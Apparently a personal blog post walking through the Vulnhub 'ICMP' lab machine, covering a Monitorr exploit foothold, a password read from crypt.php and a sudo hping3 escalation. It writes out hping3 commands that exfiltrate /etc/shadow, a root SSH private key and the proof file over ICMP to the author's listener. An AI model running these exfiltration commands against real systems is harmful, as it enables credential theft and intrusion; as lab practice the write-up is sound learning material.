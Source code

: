 ```yaml
---
layout: post
title:  "Update March 24"
date:   2021-03-24 21:30:00 +1100
category: hacking
---
```


## Update
I haven't written a post for a bit; been feeling a bit burned out. Still doing *something* productive every day - no zero days.

What have I done since I last wrote?

1. HTB Time. This is an active machine, so no writeup just yet.
2. THM Vulnet. This is basically Shuriken from Vulnhub. I haven't written it up and I probably won't, even though I quite liked it.
3. Vulnhub ICMP.

I had a quick go at Vulnhub Crossroads and didn't like it. It's a webpage ripped from what appears to be a real drug/alcohol rehab facility. Way to stay classy.

## ICMP Foothold
This thing runs *Monitorr* 1.7.6 which has multiple vulns; the python exploit from Searchsploit works.

## User Fox
We are www-data but we can read a file belonging to *fox* called reminder. It says:

>crypt with crypt.php: done, it works  
work on decrypt with crypt.php: howto?!?

There is a directory called *devel* but we can't do a listing. We intuit that crypt.php is in devel, and we can read it; it contains the password for Fox.

## Privesc (sort of)
{% highlight shell %}
$ sudo -l
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3
{% endhighlight %}

This was a little new to me. I've done a hping3 privesc before where you just run the binary with no arguments; this gets a command prompt we can use to launch a shell. In this case, we have to have an argument. The argument is a host. 

I make a new directory and touch a file:

``
touch 192.168.1.186
``

Now when I run:

``
sudo -u root /usr/sbin/hping3 --icmp *
``

it pings my box. We can exfil files. Local machine:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/icmp]
└─# hping3 --listen 192.168.1.190 -I eth0 --sign MSGID1  
{% endhighlight %}

Remote machine:

{% highlight shell %}
$ sudo -u root /usr/sbin/hping3 --icmp * --sign MSGID1 -d 150 -c 1 --file /root/proof.txt
HPING 192.168.1.186 (enp0s3 192.168.1.186): icmp mode set, 28 headers + 150 data bytes
[main] memlockall(): Operation not supported
Warning: cant disable memory paging!
len=178 ip=192.168.1.186 ttl=64 id=24284 icmp_seq=0 rtt=8.3 ms

--- 192.168.1.186 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 8.3/8.3/8.3 ms
{% endhighlight %}

And we get:

{% highlight shell %}
9377e773846aeabb51b37155e15cf638
{% endhighlight %}

We can also use this to exfil the shadow file:

``
sudo -u root /usr/sbin/hping3 --icmp * --sign MSGID1 -d 9999 -c 1 --file /etc/shadow
``

We can also use it to exfil the SSH private key:

``
sudo -u root /usr/sbin/hping3 --icmp * --sign MSGID1 -d 1000 -c 3 -i 5 -u --file /root/.ssh/id_rsa
``

However, at the moment it keeps telling me the key is in an invalid format, even though it looks okay. So, yeah.

